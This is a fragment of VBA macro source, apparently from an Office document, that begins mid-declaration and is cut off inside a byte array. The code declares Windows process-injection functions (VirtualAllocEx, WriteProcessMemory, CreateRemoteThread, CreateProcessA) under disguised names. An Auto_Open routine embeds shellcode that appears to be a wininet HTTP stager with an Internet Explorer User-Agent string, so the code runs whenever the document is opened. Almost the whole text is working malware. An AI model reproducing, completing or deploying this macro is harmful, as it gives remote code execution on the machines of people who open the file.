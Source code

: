 ```
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-4,-24,-119,0,0,0,96,-119,-27,49,-46,100,-117,82,48,-117,82,12,-117,82,20,-117,114,40,15,-73,74,38,49,-1,49,-64,-84,60,97,124,2,44,32,-63,-49, _
13,1,-57,-30,-16,82,87,-117,82,16,-117,66,60,1,-48,-117,64,120,-123,-64,116,74,1,-48,80,-117,72,24,-117,88,32,1,-45,-29,60,73,-117,52,-117,1, _
-42,49,-1,49,-64,-84,-63,-49,13,1,-57,56,-32,117,-12,3,125,-8,59,125,36,117,-30,88,-117,88,36,1,-45,102,-117,12,75,-117,88,28,1,-45,-117,4, _
-117,1,-48,-119,68,36,36,91,91,97,89,90,81,-1,-32,88,95,90,-117,18,-21,-122,93,104,110,101,116,0,104,119,105,110,105,84,104,76,119,38,7,-1, _
-43,49,-1,87,87,87,87,87,104,58,86,121,-89,-1,-43,-23,-124,0,0,0,91,49,-55,81,81,106,3,81,81,104,87,4,0,0,83,80,104,87,-119,-97, _
-58,-1,-43,-21,112,91,49,-46,82,104,0,2,64,-124,82,82,82,83,82,80,104,-21,85,46,59,-1,-43,-119,-58,-125,-61,80,49,-1,87,87,106,-1,83,86, _
104,45,6,24,123,-1,-43,-123,-64,15,-124,-61,1,0,0,49,-1,-123,-10,116,4,-119,-7,-21,9,104,-86,-59,-30,93,-1,-43,-119,-63,104,69,33,94,49,-1, _
-43,49,-1,87,106,7,81,86,80,104,-73,87,-32,11,-1,-43,-65,0,47,0,0,57,-57,116,-73,49,-1,-23,-111,1,0,0,-23,-55,1,0,0,-24,-117,-1, _
-1,-1,47,74,119,57,98,0,-33,-41,-30,69,48,20,86,-111,-65,-16,123,-16,-47,-125,58,-91,-83,22,-46,61,42,-44,-27,20,-92,-61,-120,70,-85,124,122,-118, _
-116,-45,16,-22,-91,-121,127,62,68,-47,-32,-89,-65,96,-122,0,109,-17,-89,54,-83,-12,103,90,-71,-109,68,112,-111,-23,61,4,-13,-4,38,-26,99,-23,20,43, _
-32,0,85,115,101,114,45,65,103,101,110,116,58,32,77,111,122,105,108,108,97,47,52,46,48,32,40,99,111,109,112,97,116,105,98,108,101,59,32,77, _
83,73,69,32,55,46,48,59,32,87,105,110,100,111,119,115,32,78,84,32,53,46,49,59,32,84,114,105,100,101,110,116,47,52,46,48,41,13,10,0, _
69,-8,46,-99,49,-127,-112,82,85,7,-86,-63,-3,-38,2,-58,5,126,-4,-69,20,109,-55,46,75,117,-57,-123,-68,39,57,15,51,36,-118,84,30,-20,-117,22, _
-83,107,107,-25,-95,127,-105,-41,11,55,82,-86,63,23,-88,-22,-117,-67,28,36,-75,70,-126,-8,51,-127,-52,-9,-84,-9,-122,37,-50,-121,-71,83,-35,125,-51,41, _
```